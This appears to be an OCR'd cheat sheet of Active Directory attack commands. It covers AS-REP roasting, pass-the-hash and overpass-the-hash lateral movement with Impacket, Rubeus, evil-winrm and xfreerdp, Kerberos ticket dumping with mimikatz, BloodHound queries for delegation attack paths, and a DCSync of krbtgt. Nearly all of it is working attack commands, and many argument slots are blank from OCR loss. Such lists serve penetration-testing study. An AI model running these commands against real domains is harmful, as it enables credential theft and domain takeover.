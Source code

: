 ASREPRoast

    Get hash
        python GetNPUsers.py / -usersfile -format hashcat -outputfile
        Rubeus asreproast /format:hashcat
    Get ASREPRoastable users
        Get-DomainUser -PreauthNotRequired -Properties SamAccountName
        MATCH (u:User {dontreqpreauth:true}), (c:Computer), p=shortestPath((u)-[*1..]->(c)) RETURN p

Lateral move
pass the hash

    psexec.py -hashes “:” @
    wmiexec.py -hashes “:” @
    atexec.py -hashes “:” @ “command”
    evil-winrm -i / -u -H
    xfreerdp /u: /d: /pth: /v:

overpass the hash / pass the key (PTK)

    python getTGT.py / -hashes :
        export KRB5CCNAME=/root/impacket-examples/domain_ticket.ccache
            python psexec.py /@ -k -no-pass
    Rubeus asktgt /user:victim /rc4:
        Rubeus ptt /ticket:
        Rubeus createnetonly /program:C:\Windows\System32[cmd.exe||upnpcont.exe]
            Rubeus ptt /luid:0xdeadbeef /ticket:

Unconstrained delegation

    Get tickets
        privilege::debug sekurlsa::tickets /export sekurlsa::tickets /export
        Rubeus dump /service:krbtgt /nowrap
        Rubeus dump /luid:0xdeadbeef /nowrap
    Get unconstrained delegation machines
        Get-NetComputer -Unconstrained
        Get-DomainComputer -Unconstrained -Properties DnsHostName
        MATCH (c:Computer {unconstraineddelegation:true}) RETURN c
        MATCH (u:User {owned:true}), (c:Computer {unconstraineddelegation:true}), p=shortestPath((u)-[*1..]->(c)) RETURN p

Constrained delegation

    Get tickets
        privilege::debug sekurlsa::tickets /export sekurlsa::tickets /export
        Rubeus dump /service:krbtgt /nowrap
        Rubeus dump /luid:0xdeadbeef /nowrap
    Get constrained delegation machines
        Get-DomainComputer -TrustedToAuth -Properties DnsHostName, MSDS-AllowedToDelegateTo
        MATCH (c:Computer), (t:Computer), p=((c)-[:AllowedToDelegate]->(t)) RETURN p
        MATCH (u:User {owned:true}), (c:Computer {name: “”}), p=shortestPath((u)-[*1..]->(c)) RETURN p

Resource-Based Constrained Delegation
dcsync

    lsadump::dcsync /domain:htb.local /user:krbtgt # Administrators, Domain Admins, or Enterprise Admins as well as Domain Controller computer accounts
